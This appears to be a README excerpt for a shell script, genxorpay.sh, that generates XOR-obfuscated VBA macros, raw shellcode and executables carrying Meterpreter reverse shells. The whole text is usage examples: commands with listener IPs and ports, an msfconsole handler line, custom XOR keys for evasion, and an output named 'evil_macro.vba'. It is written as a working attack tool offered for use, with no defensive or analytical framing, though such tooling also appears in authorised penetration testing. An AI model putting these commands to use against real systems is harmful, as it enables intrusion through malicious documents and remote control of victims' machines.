 ### 1️⃣ Generate VBA Macro for Reverse HTTPS Meterpreter

```bash
./genxorpay.sh -p 1 -lhost 10.10.14.22 -lport 443 -o payload.vba -raw raw_shellcode.vba
```
- Creates XOR-encoded VBA macro in `payload.vba`
- Stores raw shellcode in `raw_shellcode.vba`
- Listener: `msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; ..."`

---
### 2️⃣ Generate Payload and Enter Interactive Mode

```bash
./genxorpay.sh -p 4 -lhost 192.168.1.7 -lport 4444 -o macro.vba -i
```

- After generation, lets you **copy**:
    - VBA macro
    - Raw shellcode
    - XOR-encoded buffer
    - Listener command
    - Or **all at once** to clipboard

---

### 3️⃣ Generate `.exe` for Python Meterpreter Shell

```bash
./genxorpay.sh -p 16 -lhost 192.168.1.5 -lport 5555
```

- Creates binary output: `python_meterpreter_reverse_tcp.exe`
- Skips VBA since it's unsupported for non-shellcode formats

---

### 4️⃣ Use Custom XOR Key

```bash
./genxorpay.sh -p 6 -lhost 10.0.0.10 -lport 1337 -key 0x2A -o evil_macro.vba
```

- Uses custom XOR key `0x2A`
- Output: `evil_macro.vba`

